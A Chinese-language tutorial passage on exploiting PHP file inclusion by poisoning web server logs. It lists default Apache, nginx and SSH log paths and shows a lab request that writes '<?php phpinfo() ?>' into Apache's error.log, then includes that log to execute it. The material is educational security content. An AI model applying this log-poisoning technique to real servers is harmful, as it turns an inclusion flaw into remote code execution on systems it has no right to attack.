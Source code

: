 ## 包含日志文件
例如WEB服务器一般会将用户的访问记录保存在访问日志中。那么我们可以根据日志记录的内容，精心构造请求，把PHP代码插入到日志文件中，通过文件包含漏洞来执行日志中的PHP代码。

**利用条件**
 - **对日志文件可读**
 - **知道日志文件存储目录**

**注意**
 - 一般情况下日志存储目录会被修改，需要读取服务器配置文件(`httpd.conf`,`nginx.conf`.....)或者根据`phpinfo()`中的信息来得知
 - 日志记录的信息都可以被调整，比如记录报错的等级，或者内容格式，还是比较灵活的。

<br>

### 默认存储路径

**apache**
 - `/var/log/httpd/`
 - `/var/log/apache2/`
 - `/etc/httpd/logs/`
 - 文件名为`error.log`(错误日志)和`access.log`(访问日志)
 - 一些资料上面说文件格式是 `error_log` ，不过自己搭建起来不是这样的，需要注意一下。

**nginx**
 - `/var/log/nginx`
 - 与安装nginx的路径相对，例如安装在`/usr/local/nginx`，那么日志在`/usr/local/nginx/logs`
 - 文件名为`error.log`(错误日志)和`access.log`(访问日志)

**SSH log**
 - `/etc/log`
 - `/var/log`
 - 文件名为`auth.log`


### apache日志实例
利用apache在页面报错时，会将报错信息记录到error.log文件中。

```
请求包内容
GET /<?php phpinfo() ?> HTTP/1.1
Host: localhost:8088

日志记录
[Sun Feb 11 11:42:26.382912 2018] [core:error] [pid 9988:tid 4140] (20024)The given path is misformatted or contained invalid characters: [client 127.0.0.1:11140] AH00127: Cannot map GET /%3C?php%20phpinfo()%20?%3E HTTP/1.1 to file
[Sun Feb 11 11:43:07.778390 2018] [core:error] [pid 9988:tid 4140] (20024)The given path is misformatted or contained invalid characters: [client 127.0.0.1:11149] AH00127: Cannot map GET /<?php phpinfo() ?> HTTP/1.1 to file

第一条日志是直接通过浏览器发送的，所以路径经过了URL编码，记录的也是URL编码。即使被包含了也无效
第二条日志是用Burp发送

包含文件(我用phpstudy所以路径是这样的)
?file=H:\phpStudy\PHPTutorial\Apache\logs\error.log

界面出现日志信息，和phpinfo()被执行。
```
